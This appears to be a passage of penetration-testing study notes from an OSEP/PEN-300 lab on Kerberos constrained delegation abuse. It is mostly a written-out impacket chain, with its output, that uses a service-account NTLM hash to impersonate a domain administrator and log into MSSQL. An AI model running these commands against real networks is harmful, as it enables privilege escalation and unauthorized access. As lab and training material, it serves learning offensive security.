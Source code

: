    ```powershell
   net use \\TargetServer\ShareName
   ```

---

### **Important Notes**

- **Constrained Delegation** is configured in the **`msDS-AllowedToDelegateTo`** property and should be carefully monitored and limited to minimize security risks.
- **Rubeus** and tools like **Mimikatz** can be used to abuse this feature, so proper security controls, logging, and monitoring are essential.
- **Constrained delegation** should be used with **resource-based delegation** (available in newer versions of Windows) for better control over delegation.

By using these techniques, attackers can escalate privileges by impersonating privileged users and accessing sensitive services within the network.

```bash
impacket-getTGT -dc-ip 192.168.215.70 -service prod.corp1.com/iissvc -hashes :2892D26CDF84D7A70E2EB3B9F05C425E prod.corp1.com/offsec

export KRB5CCNAME=/home/roger/Documents/OSEP/Pen300/16ActiveDirectoryExploitation/16.2/iissvc.ccache

impacket-getST -dc-ip 192.168.215.70 -k  -impersonate administrator -spn MSSQLSvc/cdc01.prod.corp1.com:1433 prod.corp1.com/iissvc


impacket-mssqlclient -k -no-pass -dc-ip 192.168.215.70 -target-ip 192.168.215.70 prod.corp1.com/administrator@cdc01.prod.corp1.com
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(CDC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(CDC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (PROD\Administrator  dbo@master)> select suser_name();

------------------
PROD\Administrator

SQL (PROD\Administrator  dbo@master)> select system_user;

------------------
PROD\Administrator


```
